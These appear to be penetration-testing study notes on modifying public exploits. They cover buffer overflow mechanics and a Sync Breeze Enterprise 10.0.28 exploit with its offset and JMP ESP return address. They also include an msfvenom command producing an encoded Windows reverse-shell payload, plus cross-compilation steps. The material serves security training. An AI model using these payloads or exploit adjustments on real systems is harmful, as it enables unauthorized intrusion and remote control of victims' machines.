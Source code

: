 # Fixing Exploits

Fixing public exploits means modifying them to suit our needs. Common challenges include buffer overflows, requiring modifications to target parameters like socket information, return addresses, payloads, and offsets.

Before running the pentest, define the scope and inform the client that production downtime may occur.

Always read the exploit code carefully, modify as needed, and test it against your own sandboxed target.

---

## Fixing Memory Corruption Exploits

- **Buffer**: Memory area for holding user-sent content for processing.
- **Buffer Overflow**: When input exceeds stack limits and overwrites adjacent memory.
- Can occur in **heap** (dynamically managed, large global data) or **stack** (local data, fixed size).
- Example:
  ```c
  char buffer[64];
  strcpy(buffer, argv[1]);  // No boundary check
  ```
- **Return Address**: Stored memory address for next function after current completes.
- **Overflowing Return Address**: Alters EIP/RIP, allowing shellcode execution if return address is overwritten.

### Flow of Stack-Based Buffer Overflow:
1. Create a large buffer to trigger overflow.
2. Overwrite return address with JMP ESP (or equivalent).
3. Include NOP sled + shellcode.
4. Handle bad characters (e.g., ASCII/Unicode control chars).

---

## Importing and Examining the Exploit

- Target: `Sync Breeze Enterprise 10.0.28`, exploit `42341.c`.
- Vulnerability in HTTP server module with POST request.

```python
offset = "A" * 780
JMP_ESP = "\x83\x0c\x09\x10"
shellcode = "\x90" * 16 + msf_shellcode
exploit = offset + JMP_ESP + shellcode
```

- `0x10090c83` is the JMP ESP address. 16 NOPs prepended to shellcode.

---

## Python vs C

- **Python**: Interpreter-based, can't run standalone if Python not installed. Easy string concatenation.
- **C**: Compiled. Use `searchsploit -m <exploitdb-id>` and examine headers (e.g., `winsock2.h` = Windows).

---

## Cross-Compiling Exploit Code

Use `mingw-w64`:

```bash
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

To run with Wine:

```bash
wine exploit.exe
```

---

## Fixing the Exploit

- `msvbvm60.dll` missing → wrong return address.
- Use **Immunity Debugger**:
  - Attach process.
  - View > Executable Modules → Check DLL presence.
- If Python version is EDB verified, use its return address.
- Or recreate environment, search public exploits, or extract DLL and use `objdump`.

---

## Payload Generation

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

### Immunity Debugger:
- `Ctrl+G` to follow address.
- `F2` to set breakpoint.

---

## Changing the Overflow Buffer

```c
int initial_buffer_size = 780;
char *padding = malloc(initial_buffer_size);
memset(padding, 0x41, initial_buffer_size);           // Fill with 'A'
memset(padding + initial_buffer_size - 1, 0x00, 1);    // Null terminator
```

---

## Fixing Web Exploits

Key questions:
- HTTP or HTTPS?
- Specific path access?
- Needs pre-auth?
- GET or POST crafted how?
- Depends on default app settings?
- Affected by self-signed certs?

Use:

```python
requests.get(url, verify=False)
```

### Handling Errors

- Example: `IndexError: list index out of range` → Check `.split()` usage.
- Use `print()` for debugging.

---

## Alternative Tools

- **DirBuster** as alternative to **GoBuster**.
- Wordlists: `/usr/share/wordlists/dirbuster/` (more comprehensive).
